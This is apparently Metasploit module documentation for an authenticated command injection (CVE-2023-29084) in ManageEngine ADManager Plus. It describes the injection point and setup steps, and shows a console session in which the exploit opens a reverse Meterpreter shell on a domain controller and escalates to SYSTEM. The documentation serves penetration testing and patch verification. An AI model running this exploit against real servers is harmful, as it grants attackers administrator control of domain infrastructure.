 ## Vulnerable Application
ManageEngine ADManager Plus prior to build 7181 is vulnerable to an authenticated command injection due to insufficient
validation of user input when performing the `ChangePasswordAction` function before passing it into a string that is later
used as an OS command to execute. 

By making a POST request to `/api/json/admin/saveServerSettings` with a `params` POST
parameter containing a JSON array object that has a `USERNAME` or `PASSWORD` element containing a 
carriage return and newline, followed by the command the attacker wishes to execute, an attacker can gain RCE as the user
running ADManager Plus, which will typically be the local administrator. 

Note that the attacker must be authenticated in order to send requests to `/api/json/admin/saveServerSettings`, 
so this vulnerability does require authentication to exploit.

As this exploit modifies the HTTP proxy settings for the entire server, one cannot use fetch payloads
with this exploit, since these will use HTTP connections that will be affected by the change in configuration.

## Verification Steps

1. Set up a Windows Server target as a domain controller server.
2. Download https://web.archive.org/web/20220926012908if_/https://download.manageengine.com/products/ad-manager/13024552/ManageEngine_ADManager_Plus_64.exe onto the target and run through the setup window, accepting defaults.
3. Start `msfconsole`
4. `set RHOST *target IP*`
5. `set LHOST *local IP address*`
6. `set SRVHOST *local IP address*` <- This step is optional depending on payload.
7. `exploit`
8. You should get a shell back as the local administrator user on the target machine.

## Options

### USERNAME
Username to log into ADManager Plus as.

### PASSWORD
Password to log into ADManager Plus with.

### DOMAIN
Domain to log into ADManager Plus with or `ADManager Plus Authentication`.

## Scenarios

### ManageEngine ADManager Plus Build 7151 on Windows Server 2022
```
msf exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > show options

Module options (exploit/windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection):

   Name      Current Setting                Required  Description
   ----      ---------------                --------  -----------
   DOMAIN    ADManager Plus Authentication  yes       The domain to log into
   PASSWORD  admin                          yes       The password to log in with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    192.168.64.149                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     9090                           yes       The target port (TCP)
   SSL       false                          no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin                          yes       The user to log into ADManager Plus as
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.128   yes       The listen address (an interface may be specified)
   LPORT     8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > exploit

[*] Started reverse TCP handler on 192.168.64.128:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is running AdManager Plus build 7151!
[+] The target appears to be vulnerable. Target appears to be running a vulnerable version of AdManager Plus!
[+] Logged in successfully!
[*] Sending stage (175686 bytes) to 192.168.64.149
[*] Meterpreter session 3 opened (192.168.64.128:8899 -> 192.168.64.149:57276) at 2023-05-25 15:32:08 -0500
[+] Request timed out. Its likely the payload executed successfully!

meterpreter > getuid
Server username: DAFOREST\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
